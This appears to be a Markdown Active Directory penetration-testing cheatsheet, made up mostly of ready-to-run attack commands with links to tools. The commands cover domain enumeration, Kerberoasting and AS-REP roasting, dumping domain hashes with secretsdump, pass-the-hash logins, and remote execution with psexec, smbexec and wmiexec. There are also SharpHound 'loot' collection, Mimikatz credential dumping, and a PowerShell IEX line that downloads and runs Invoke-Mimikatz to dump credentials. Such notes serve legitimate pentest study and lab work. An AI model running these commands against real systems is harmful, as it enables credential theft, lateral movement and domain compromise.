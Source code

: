 # Active Directory Cheatsheet     
## Contents 
- [Active Directory Cheatsheet](#active-directory-cheatsheet)
  * [Contents](#contents)
  * [Quick Commands](#quick-commands)
    + [Files to Check](#files-to-check)
  * [Resources](#resources)
  * [Cheat Sheets](#cheat-sheets)
  * [General Tools](#general-tools)
  * [Kerberos (Port 88)](#kerberos--port-88-)
    + [Kerberoasting with Impacket](#kerberoasting-with-impacket)
  * [GetUserSPNs](#getuserspns)
  * [Using TGT key to excute remote commands from the following impacket scripts:](#using-tgt-key-to-excute-remote-commands-from-the-following-impacket-scripts-)
  * [LDAP (Port 636)](#ldap--port-636-)
  * [Post Exploitation](#post-exploitation)
    + [PowerView](#powerview)
  * [Bloodhound](#bloodhound)
  * [Mimikatz](#mimikatz)
- [Resources](#resources-1)
  * [Active Directory Enumeration | ATTL4S](#active-directory-enumeration---attl4s)
  * [Adsecurity Blog](#adsecurity-blog)
  * [RedTeam Security Live Hacking Demonstration](#redteam-security-live-hacking-demonstration)
  * [Pentesting AD CheatSheet](#pentesting-ad-cheatsheet)
  * [NetNTLMtoSilverTicket | NotMedic's Github](#netntlmtosilverticket---notmedic-s-github)

## Quick Commands  

    net users
    net users /domain
    net localgroup
    net groups /domain
    net groups /domain "Domain Admins"

PowerShell Active Directory Module (on DC)

    Get-ADUser
    Get-ADDomain
    Get-ADGroup
    Get-ADGroupMember -identity "Domain Admins" -Domain test.local -DomainController 10.10.10.10
    Find-DomainShare
 
### Files to Check  
    %SYSTEMROOT%\System32\ntds.dit             #AD database
    %SYSTEMROOT%\NTDS\ntds.dit                 #AD backup 

## Resources      
[WADComs](https://wadcoms.github.io/)    

## Cheat Sheets
[AD Cheat Sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)     
[AD Lateral Movement and Persistence Cheatsheet](https://bhanusnotes.blogspot.com/2020/12/ad-pentest-lateral-movement-persistance.html)  
[AD Cheat sheet](https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/)   
[Pentesting AD CheatSheet](https://i.ibb.co/TKYNCNP/Pentest-ad.png) 
[Integratio IT Cheat Sheet](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet)  

## General Tools  
[Impacket](https://github.com/SecureAuthCorp/impacket)   

    apt install impacket-scripts  
    /usr/share/doc/python3-impacket/examples  
    
[evil-winrm](https://github.com/nubix/evil-winrm)    
[ADSC-Pwn](https://github.com/bats3c/ADCSPwn)   

## Kerberos (Port 88)   
Tools: [Kerbrute](https://github.com/ropnop/kerbrute), [Rubeus](https://github.com/GhostPack/Rubeus)   
[Messing With Kerberos Using Rubeus](https://endark.gitbook.io/kb/windows/lab-attacks/messing-with-kerberos-using-rubeus) 
[Kerberos Tickets](https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel)   
[Kerberos Cheat Sheet](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)  
[How Kerberos Works](https://www.tarlogic.com/blog/how-kerberos-works/)  


    ./kerbrute userenum userlist.txt -d [name] --dc [name]     

### Impacket 
Check for Kerberoasting with Impacket 

    GetNPUsers.py DOMAIN-Target/ -usersfile user.txt -dc-ip <IP> -format hashcat/john

Scripts 
Get a list of valid users: ASREProasting to see if any of them do not have pre-auth set and can request a Kerberos ticket without a password. Crack hashes with hashcat        

    python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py domain.local/ -no-pass -usersfile users.txt         
    
If you have creds for the backup account for domain controller: can dump all hashes    

    python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -just-dc backup:backuppassword@domain.local
    
Pass the Hash: use psexec or evil-winrm to login with username/ hash (doesn't neeed to be cracked)    

    evi-winrm -i 127.0.0.1 -u username -H [NTLM hash]    
    

ASREPRoast:

     impacket-GetUserSPNs <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
     impacket-GetUserSPNs <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

Kerberoasting: 

     impacket-GetUserSPNs <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file> 

Overpass The Hash/Pass The Key (PTK):
 
    python3 getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>
    python3 getTGT.py <domain_name>/<user_name> -aesKey <aes_key>
    python3 getTGT.py <domain_name>/<user_name>:[password]

### Using TGT key to excute remote commands from the following impacket scripts:

    python3 psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
    python3 smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
    python3 wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass


## LDAP (Port 636)
Anonymous Credential LDAP Dumping: 

    ldapsearch -LLL -x -H ldap://<domain fqdn> -b ‘’ -s base ‘(objectclass=*)’

Impacket GetADUsers.py (Must have valid credentials)

    GetADUsers.py -all <domain\User> -dc-ip <DC_IP>

Impacket lookupsid.py:

    /usr/share/doc/python3-impacket/examples/lookupsid.py username:password@172.21.0.0

Impacket Secretdump:

    python3 secretdump.py 'breakme.local/Administrator@172.21.0.0' -just-dc-user anakin

Windapsearch:

https://github.com/ropnop/windapsearch 

    python3 windapsearch.py -d host.domain -u domain\\ldapbind -p PASSWORD -U


## Post Exploitation    
### PowerView   
Powershell script to enum domain after gaining admin access to machine   

[PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)   
[PowerView Cheat Sheet](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)    
[Cheat sheet](https://hackersinterview.com/oscp/oscp-cheatsheet-powerview-commands/)   

    powershell -ep bypass   
    . .\PowerView.ps1   
    Get-NetDomain   
    Get-NetUser   
    Get-NetComputer -fulldata   
    
## Bloodhound    
[Bloodhound](https://github.com/BloodHoundAD/BloodHound)   
Bloodhound - GUI app installed on attack box, SharpHound - powershell script to enum and collect data -> exfiltrate as a zip file.     

    apt-get install bloodhound     

on victim, transfer file then import into Bloodhound and run queries   
    . .\SharpHound.ps1   
    Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip        
    
## Mimikatz  
[Mimikatz and Password Dumps Reference](https://ivanitlearning.wordpress.com/2019/09/07/mimikatz-and-password-dumps/) 
[Online Password Cracker - Crackstation](https://crackstation.net/)   

    privilege::debug
    lsadump::sam
Powershell Script 

    powershell.exe-exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"

    
# Resources
[Active Directory Security 101 Class](https://github.com/cfalta/adsec) 
 
[Understanding Windows Lateral Movement](https://attl4s.github.io/assets/pdf/Understanding_Windows_Lateral_Movements.pdf)  

[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#most-common-paths-to-ad-compromise)

[Attacking Active Directory: 0 to 0.9](https://zer1t0.gitlab.io/posts/attacking_ad/)


[Active Directory Enumeration | ATTL4S](https://attl4s.github.io/assets/pdf/Understanding_Active_Directory_Enumeration.pdf) 

[Adsecurity Blog](https://adsecurity.org/) 

[RedTeam Security Live Hacking Demonstration](https://www.youtube.com/watch?v=k6EOhO3JKCQ) 

[NetNTLMtoSilverTicket | NotMedic's Github](https://github.com/NotMedic/NetNTLMtoSilverTicket) 
